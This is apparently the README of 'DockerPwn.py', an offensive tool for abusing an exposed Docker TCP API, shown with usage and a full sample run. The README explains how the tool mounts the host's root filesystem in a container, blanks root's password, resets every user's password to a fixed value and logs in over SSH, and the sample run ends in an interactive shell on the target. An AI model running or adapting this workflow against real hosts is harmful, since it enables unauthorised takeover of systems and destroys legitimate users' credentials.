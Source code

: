 # DockerPwn.py

!!! CHECK OUT THE WIP BRANCH FOR A MORE MODULAR, PRETTIER, LESS DESTRUCTIVE EXPERIENCE. !!!

DISCLAIMER: I AM NOT RESPONSIBLE FOR YOUR USE OF THIS. USE YOUR HEAD.

Automation for abusing an exposed Docker TCP Socket.

This will automatically create a container on the Docker host with the host's root filesystem mounted,
allowing arbitrary read and write of the host filesystem (which is bad).

Once created, the script will empty the password requirement for 'root', and will alter any user
with a valid Unix password to have a password of 'DockerPwn'

Once this is done, the script will attempt to use Paramiko to login to all users enumerated from 
/etc/passwd using the password 'DockerPwn', and a shell will be spawned. 

## Roadmap:

Utilize the limited command execution via Paramiko to get a better shell, and automatically escalate to root.


## Usage:
```
DockerPwn.py [-h] [--target TARGET] [--port PORT]

optional arguments:
  -h, --help       show this help message and exit
  --target TARGET  IP of Docker Host
  --port PORT      Docker API TCP Port
 ```
## Example Output:

```
Dylans-MacBook-Pro:~ dylan$ /usr/local/bin/python3 /Users/dylan/Documents/DockerPwn.py --target 192.168.0.20 --port 2375

[+] Successfully probed the API. Writing out list of containers just in case there's something cool.

[+] Downloading latest Alpine Image for a lightweight pwning experience.

[+] Alpine image is downloading to the host. Hope we aren't setting off any alarms. Sleeping for a bit.

[+] Alright, creating Alpine Linux Container now...

[+] Success! Created container with root volume mounted. Got ID 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c!

[+] Starting container 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c

[+] Container successfully started. Blue team will be with you shortly.

[+] Phew, alright. Creating the EXEC to change passwords.

[+] EXEC successfully created on container! Got ID bc5ee929577554b9bc573b33c4a7e811542657a6aaeba6791d07bbdcc602103f!

[+] Now triggering the EXEC to change passwords. Hope SSH is open...

[+] EXEC successfully triggered. Printing users found in /etc/passwd.

[!] User List: root daemon bin sys sync games man lp mail news uucp proxy www-data backup list irc gnats nobody systemd-network systemd-resolve syslog messagebus _apt lxd uuidd dnsmasq landscape pollinate sshd dylan

[+] OK, looking good. Attempting to open shell as root. This may take a minute or two.

[-] Login failed for root
[-] Login failed for daemon
[-] Login failed for bin
[-] Login failed for sys
[-] Login failed for sync
[-] Login failed for games
[-] Login failed for man
[-] Login failed for lp
[-] Login failed for mail
[-] Login failed for news
[-] Login failed for uucp
[-] Login failed for proxy
[-] Login failed for www-data
[-] Login failed for backup
[-] Login failed for list
[-] Login failed for irc
[-] Login failed for gnats
[-] Login failed for nobody
[-] Login failed for systemd-network
[-] Login failed for systemd-resolve
[-] Login failed for syslog
[-] Login failed for messagebus
[-] Login failed for _apt
[-] Login failed for lxd
[-] Login failed for uuidd
[-] Login failed for dnsmasq
[-] Login failed for landscape
[-] Login failed for pollinate
[-] Login failed for sshd
[+] Login succeeded for dylan!

DockerPwn@192.168.0.20> id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

DockerPwn@192.168.0.20> 
```
